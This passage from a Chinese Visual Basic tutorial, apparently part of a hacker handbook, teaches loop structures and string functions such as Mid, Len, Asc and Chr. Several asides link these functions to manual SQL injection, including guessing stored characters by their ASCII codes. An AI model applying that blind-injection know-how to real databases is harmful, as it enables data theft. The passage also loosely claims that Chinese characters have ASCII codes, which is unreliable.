第一个 IIf 语句中，由于 `Singer="周杰伦"` 条件成立，会返回第一个值“台湾歌手”；而在第二个 IIf 语句中，由于 `Singer="李宇春"` 不成立，则会返回第二个值“其他地区”。IIf 语句使用起来是非常方便的，它可以减少代码编写量。

### 1.8.3 循环结构

循环结构中包括：For 循环、While 循环、Do...Loop 循环以及循环的嵌套使用。

- 1. For 循环

For 循环是我们使用最普遍的一种循环结构，它的基本形式是：

```vb
For 表达式 = 起始值 To 终止值 [Step 自增量]
    需要执行的程序段
Next 表达式
```

为了方便读者朋友理解，现举例说明，我们用 For 循环计算 1 到 100 所有整数的和：

```vb
Dim i As Integer, S As Long       ' 声明一个计数的变量 i、S 用于存储和的值
For i = 1 To 100                  ' 这里 Step 的值为 1，可以省略
    S = S + i
Next i
```

S 的值初始自动为 0，我们可以不对其进行初始赋值操作。当 Step 的值为 1 时，也可以省略不写。这里 Step 的值也可以为负，即进行自减。同样是计算 1 到 100 的整数和，我们稍微修改一下代码：

```vb
Dim i As Integer, S As Long       ' 声明一个计数的变量 i、S 用于存储和的值
For i = 100 To 1 Step -1          ' 这里 Step 的值为 -1，即进行自减
    S = S + i
Next i
```

> 提示：字符串变量初始为空字符串（VBNullString），而数值变量初始为 0。

- 2. While 循环

While 循环的基本形式是：

```vb
While 表达式
    需要执行的程序段
Wend
```

这里的表达式可以是逻辑表达式，也可以是数值。如果是数值，则按照非 0 转换为 True，0 转换为 False 的规则进行转换。现使用 While 循环来计算 1 到 100 的和：

```vb
Dim i As Integer, S As Long      ' 声明计数变量i和用于存储和的变量S
i = 1                            ' 初始i的值为1，无初始赋值则默认为0
While i <= 100
    S = S + i
    i = i + 1                    ' 每次自增1
Wend
```

上面的代码运行完毕，S 的值即是我们想要的结果。在这里，如果我们不在程序段中对 i 进行操作，则 i 的值不会改变，循环将一直进行下去，程序陷入死循环。所以，大家应该注意在程序段中对条件表达式进行操作，使程序在有限的循环次数内跳出该循环。

问：上面的符号“<=”是什么意思？  
答：“<=”是关系运算符，它的意思是“小于等于”，也就等同于我们平时所用的“≤”。如果表达式成立，返回逻辑值 True，例如，1<=2 将返回 True；否则，表达式将返回 False。在后面，我们会对运算符进行单独介绍，读者朋友们可以参考相关内容。

- 3. Do While...Loop 循环

它的基本形式是：

```vb
Do While 表达式
    需要执行的程序段
Loop
```

这里表达式同样可以是条件表达式或数值。下面使用 Do While...Loop 循环来计算 1 到 100 的和：

```vb
Dim i As Integer                 ' 声明整型变量i
Do While i <= 100
    s = s + i
    i = i + 1                    ' i自增1
Loop
MsgBox "1到100的和是 " & s
```

- 4. For Each...Next 循环

For Each...Next 循环对数组或对象集合中的每一个元素重复一组语句。如果不知道一个集合有多少元素，For Each...Next 循环将会非常有用。它在集合中使用是非常普遍的，其基本形式是：

```vb
For Each 元素 In 集合
    需要执行的程序段
Next
```

对于集合中的每一个元素都将执行中间的程序段，下面举例说明，我们建立 FSO 对象，列出 D 盘根目录下的所有文件：```vb
Dim FSO As Object, Folder1 As Object          ' 声明 FSO 对象和文件夹对象 Folder1
Set FSO = CreateObject("scripting.filesystemobject")   ' 创建 FSO 对象
Set Folder1 = FSO.getfolder("D:\")            ' 获取 D:\ 这个文件夹对象
Me.AutoRedraw = True                          ' 窗体可自动重绘
For Each file In Folder1.Files                ' 对于文件夹中的文件集合对象
    Me.Print file.Path                        ' 在窗体中打印文件路径
Next
```

程序运行结果如图 1-19 所示。

> **提示：**Folder1.Files 是一个文件对象的集合，对于这个文件对象集合中的每一个文件对象，都会执行中间的打印语句。File 在这里是个隐式变量，它其实是一个 Object 类型的变量。File.Path 会返回 File 的 Path 属性，也就是路径。读者朋友在这里如果理解起来还不是非常清楚，那么在我们系统地学习 FSO 对象之后再来看这段代码，就很简单了。另外，这里 File.Path 中的 Path 如果省略，变成 Me.Print file，它的作用是一样的，默认是返回其 Path 属性。



图 1-19 For Each…Next 循环

#### 5. 循环的嵌套使用

不同类型的循环可以混合使用，同类型的循环也可以嵌套使用，下面简单举例说明：

```vb
Private Sub Form_Load()
    Dim i, j, k, s                  ' 声明 3 个循环计数变量，变量 s 用于存储循环的总次数
    For i = 1 To 10
        For j = 1 To 10
            For k = 1 To 10
                s = s + 1           ' 每循环一次，s 自增 1
            Next k
        Next j
    Next i
    MsgBox "循环的总次数为：" & s
End Sub
```

我们使用了 s 来统计循环的总次数，这里得到的最终结果将会是：1000，因为 10*10*10=1000。当 i=1，j=1 时，k 会从 1 循环到 10，循环了 10 次。当 i=1，j=2 时，k 也会从 1 循环到 10，同样循环 10 次。可以看出，k 是变化得最快的，变化第二快的是 j，而变化得最慢的则是 i。k 每变化一次，只会循环一次，而 j 每变化一次，则会循环 10 次，当 i 变化一次时，则会循环 100 次。希望大家可以体会到这一点，或许可以换一个说法：嵌套的循环是从最内层开始循环的，逐渐向外层循环。为了帮助读者朋友理解，我们再举一个例子：

```vb
Dim i As Integer, j As Integer, Total As Integer   ' 声明三个变量，Total 用于存储循环总次数
i = 10                                              ' 初始赋值 i=10
While i >= 1                                        ' 当 i>=1 时执行中间的程序段
    j = 10                                          ' 初始 j=10
    While j >= 1                                    ' 当 j>=1 时，执行中间的程序段
        Total = Total + 1                           ' 循环次数增加 1
        j = j - 1                                   ' j 自减
    Wend
    i = i - 1                                       ' i 自减
Wend
MsgBox Total  ' 提示循环总次数
```

这里初始 i 的值为 10，满足 i >= 1，执行中间的程序段，j 从 10 循环到 1，共循环 10 次。然后 i 自减，其值变成 9，再次执行中间的程序段，j 又从 10 循环到 1，共循环 10 次。可以看出，j 都循环 20 次了，i 的值才变化 2。因此在外层的变量 i 变化要比内层的 j 慢。读者朋友们可以在书中圈一下代码的层次，理解起来会更容易。不要担心把书弄花了，养成画一画的习惯也挺好的。当然，如果你要做一下笔记，那就更好啦！

> 提示：使用 While 循环时，不要忘记对条件表达式进行操作，否则，会造成死循环。在一些计算当中，可能还会造成溢出。什么是溢出呢？溢出就是所要存储的数据超过变量所能容纳的数据量了。例如，Byte 字节型变量只能容纳 0 到 255 之间的无符号数值，如果我们将 256 赋值给一个字节型（Byte）变量，会出现什么情况？请看下面的代码：

```vb
Private Sub Form_Load()
    Dim Var1 As Byte      ' 声明一个字节型变量 Var1
    Var1 = 256            ' 将 256 赋值给字节型变量 Var1
End Sub
```



其运行后如图 1-20 所示，程序产生溢出错误。

### 1.8.4 常用的几个内部函数

常用的内部函数有字符串相关的函数 Len、Left、Right、Mid、Trim、LTrim、RTrim、InStr、Asc、Chr、String 及 Space 等，有日期时间函数 Now、Day、Month 及 Year 等，也有转换函数 CInt、CLng 及 CStr 等。下面简要介绍其中的几个。

#### 1. Trim 函数

该函数用于删除字符串两边的空格，在 ASP 程序中，把数据代入数据库进行查询之前，通常我们都会使用 Trim 函数来去掉两边的空格。它只有一个参数，即需要进行删除空格的字符串，Trim 函数的基本形式为：Trim(字符串或字符串变量)。函数返回值是去掉空格后的字符串：



```vb
Dim Sr1 As String
Sr1 = "    黑客手册    "      ' 变量 Sr1 两边有空格
MsgBox Sr1                   ' 提示 Sr1 的值
Sr1 = Trim(Sr1)              ' 删除空格之后再赋值给 Sr1
MsgBox Sr1                   ' 提示 Sr1 的新值
```



前后两次得到结果分别如图 1-21 和 1-22 所示。可以看到，字符串两边的空格已经被去掉了。函数 LTrim 的功能是删除字符串左边的空格，L 为 Left 的首字母。函数 RTrim 用于去掉字符串右边的空格，R 为 Right 的首字母。它们与 Trim 类似，只有一个参数，也就是需要进行删除空格操作的字符串或字符串变量。

#### 2. Mid 函数

Mid 函数是一个字符串截取函数，用于从一个字符串中截取特定位置和长度的字符串。

其基本形式是：`Mid(字符串，起始位置[,长度])`，经常进行手工注入的读者朋友对这个函数应该非常熟悉。这里参数长度是可以省略的，当它省略时，则截取起始位置后面所有剩余的字符。如果函数中长度的值超过了待截取字符串本身具有的长度，同样截取起始位置后面所有剩余的字符串。下面简单举例说明：

```vb
Dim Str1 As String, Str2 As String    ' 声明两个字符串变量 Str1、Str2
Str1 = "非安全黑客手册"                 ' 初始为 Str1 赋值
Str2 = Mid(Str1, 4, 4)                 ' 在 Str1 从第四位开始，截取 4 个字符，赋值给 Str2
```

此时 `Str2` 的值应该是“黑客手册”。程序从第四个字符开始，一共截取四个字符，得到最终的结果并赋值给 `Str2`。如果我们填写一个长度大于 4 的数值，例如 `Str2 = Mid(Str1, 4, 6)`，最终得到的结果同样应该是“黑客手册”，因为其值已经超过了本身具有的长度（从第四个字符开始往后只剩下了 4 个字符）。

> 问：什么是注入？

答：随着 B/S 模式应用开发的发展，使用该模式编写程序的程序员越来越多，但是由于程序员的水平参差不齐，相当大一部分应用程序存在安全隐患。用户可以提交一段数据库查询代码，根据程序返回的结果，获得某些他想要的数据，这个就是所谓的 SQL injection，即 SQL 注入式攻击。

#### 3. Len 函数

该函数用于返回字符串中字符的个数，只有一个参数，基本形式是：`Len(字符串或字符串变量)`。这个参数可以为字符，也可以是一个字符串变量。例如，`Len("黑客手册")`，将返回“黑客手册”中的字符数，其结果是 4。下面的代码将返回字符串变量中的字符数：

```vb
Dim Str1 As String              ' 声明一个字符串变量 Str1
Str1 = "非安全黑客手册"
MsgBox Len(Str1)                ' 返回 Str1 字符串中的字符数
```

`Len(Str1)` 返回的结果是 7。在进行手工注入时，我们会查询表中一个记录的长度，此时可以使用 `Len` 函数。

#### 4. Left 函数

`Left` 函数是一个字符串截取函数，它可以从一个字符串的左边第一位开始，截取若干数量的字符。其基本形式是：`Left(字符串或字符串变量，长度)`。简单举例说明：

```vb
Dim Str1 As String
Str1 = "非安全黑客手册"
MsgBox Left(Str1, 3)            ' 返回 Str1 左边的 3 个字符
```

此时，`Left(Str1, 3)` 将会返回“非安全黑客手册”的左边 3 个字符，也就是“非安全”。

#### 5. Right 函数

`Right` 函数同样是一个字符串截取函数，与 `Left` 函数不同的是，它是从一个字符串的右边第一位开始，截取若干数量的字符。其基本形式是：`Right(字符串或字符串变量，长度)`。

简单举例说明一下：

```vb
Dim Str1 As String
Str1 = "非安全黑客手册"
MsgBox Right(Str1, 4)    ' 返回 Str1 右边的 4 个字符
```

此时，`Right(Str1, 4)` 将返回“黑客手册”。

#### 6. InStr 函数

该函数用于确定字符串 2 是否出现在了字符串 1 中，以及出现的位置。其基本形式是：`InStr([起始位置,]字符串1, 字符串2)`。参数起始位置是可以省略的，如果省略，则从第一个字符开始判断。若字符串 2 出现在了字符串 1 中，函数返回出现的位置，否则，函数返回 0。举例说明：

```vb
Dim Str1 As String
Str1 = "非安全黑客手册"
MsgBox InStr(Str1, "手册")    ' 返回“手册”二字在“非安全黑客手册”中出现的位置
```

此时 `InStr(Str1, "手册")` 得到的结果将会是 6，因为字符串“非安全黑客手册”第六个字符开始出现了“手册”字样。此处参数起始位置被省略了，默认从第一个字符开始判断，我们再看下面的代码：

```vb
Dim Str1 As String
Str1 = "非安全黑客手册"
MsgBox InStr(5, Str1, "黑客")    ' 从第 5 个字符开始判断“黑客”出现的位置
```

我们从第五个字符开始判断，“黑客”字符串并没有存在于 Str1 的后续字符串中，因此 `InStr(5, Str1, "黑客")` 返回值是 0，即不存在这样的字符串在 Str1 中。

> **提示：**这里 InStr 函数是看整个字符串 2 在字符串 1 中是否出现，但若出现，返回值是字符串 2 的第一个字符在字符串 1 中出现的位置。例如，`InStr("123456", "456")` 的返回值将会是 4，也就是“4”在“123456”中出现的位置。它不会是 5，也不会是 6。大家在使用时应该注意一下。

#### 7. Asc 函数

该函数用于返回一个字符的 ASCII 码。每一个字符，都有其对应的 ASCII 码，就像我们每个人都有一个身份证号一样。使用 ASCII 码，我们可以进行一些简单的加密及字符串的各种转换。相信经常手工注入的朋友会对这个函数也比较熟悉，因为注入时通常是先猜解一个字符的 ASCII 码，然后再将其转换为字符。

Asc 函数的基本形式是：`Asc(字符或字符串)`。这里参数可以是一个字符，也可以是字符串。但若该参数填入一个字符串，则只会返回字符串中第一个字符的 ASCII 码。例如：`Asc("A")` 将返回大写字母 A 的 ASCII 码，为 65。而 `Asc("ABCDEFG")` 也会返回字母 A 的 ASCII 码，同样是 65。

问：中文字符也有 ASCII 码吗？

答：是的。中文字符也有其对应的 ASCII 码。例如，我们取“李”的 ASCII 码看看：`MsgBox Asc("李")`，如图 1-23 所示，我们会得到一个负的值：-16146。所以，我们在这里指出，如果在进行手工注入时，猜解到一个字符的 ASCII 码小于 0，则该字符可能是中文字符。



#### 8. Chr 函数

Chr 函数的功能正好与 Asc 函数相反，它的作用是根据 ASCII 码返回其对应的字符。它的函数基本形式是：`Chr(ASCII码)`，函数最后返回该 ASCII 码对应的字符。部分 ASCII 码与字符的对应关系请参考下面的字符集：

| 十进制 | 字符 | 十进制 | 字符 | 十进制 | 字符 | 十进制 | 字符 |
|---:|:---:|---:|:---:|---:|:---:|---:|:---:|
| 0 | . | 32 | [space] | 64 | @ | 96 | ` |
| 1 | . | 33 | ! | 65 | A | 97 | a |
| 2 | . | 34 | " | 66 | B | 98 | b |
| 3 | . | 35 | # | 67 | C | 99 | c |
| 4 | . | 36 | $ | 68 | D | 100 | d |
| 5 | . | 37 | % | 69 | E | 101 | e |
| 6 | . | 38 | & | 70 | F | 102 | f |
| 7 | . | 39 | ' | 71 | G | 103 | g |
| 8 | * | 40 | ( | 72 | H | 104 | h |
| 9 | * | 41 | ) | 73 | I | 105 | i |
| 10 | * | 42 | * | 74 | J | 106 | j |
| 11 | . | 43 | + | 75 | K | 107 | k |
| 12 | . | 44 | , | 76 | L | 108 | l |
| 13 | * | 45 | - | 77 | M | 109 | m |
| 14 | . | 46 | . | 78 | N | 110 | n |
| 15 | . | 47 | / | 79 | O | 111 | o |
| 16 | . | 48 | 0 | 80 | P | 112 | p |
| 17 | . | 49 | 1 | 81 | Q | 113 | q |
| 18 | . | 50 | 2 | 82 | R | 114 | r |
| 19 | . | 51 | 3 | 83 | S | 115 | s |
| 20 | . | 52 | 4 | 84 | T | 116 | t |
| 21 | . | 53 | 5 | 85 | U | 117 | u |
| 22 | . | 54 | 6 | 86 | V | 118 | v |
| 23 | . | 55 | 7 | 87 | W | 119 | w |
| 24 | . | 56 | 8 | 88 | X | 120 | x |
| 25 | . | 57 | 9 | 89 | Y | 121 | y |
| 26 | . | 58 | : | 90 | Z | 122 | z |
| 27 | . | 59 | ; | 91 | [ | 123 | { |
| 28 | . | 60 | < | 92 | \ | 124 | \| |
| 29 | . | 61 | = | 93 | ] | 125 | } |
| 30 | . | 62 | > | 94 | ^ | 126 | ~ |
| 31 | . | 63 | ? | 95 | _ | 127 | . |

注：Microsoft Windows 不支持这些字符。

**8、9、10 和 13 分别转换为退格、制表、换行和回车字符。它们并没有特定的图形显示，但会依不同的应用程序，而对文本显示有不同的影响。**

我们举例说明一下 Chr 函数的使用。因为知道大写字母 A 的 ASCII 码为 65，那么下面的代码将返回字符“A”：`Chr(65)`。

> **提示：**上面的 ASCII 码并不需要都记住，我们只需要记住几个特殊的 ASCII 码即可。数字 0 的 ASCII 码是 48，大写字母 A 的 ASCII 码是 65，小写字母 a 的 ASCII 码是 97。其他字符的 ASCII 码就可以推出了，例如大写字母 C 的 ASCII 码就是比大写字母 A 大 2，应该是 67。

# 第一章 VB 编程基础

> 提示：在 VB 中，换行符可以表示成 Chr(13) & Chr(10)，也可以使用 vbCrLf。简单举例说明其使用：

```vb
MsgBox "文本行1" & vbCrLf & "文本行2" & vbCrLf & "文本行3"
MsgBox "文本行1" & Chr(13) & Chr(10) & "文本行2" & Chr(13) & Chr(10) & "文本行3"
```

上面两行代码运行后的效果是一样的，如图 1-24 所示。



#### 9. LCase 函数

LCase 函数用于将字符串中的字符全部转换为小写。L 是 Lower 的首字母，LCase 也就是 Lower Case。它的函数基本形式是：LCase(字符串或字符串变量)，函数返回值是转换过后的字符串。简单举例说明：

```vb
MsgBox "NOHACK转换为小写是：" & LCase("NOHACK")
```

上面的代码运行后如图 1-25 所示。

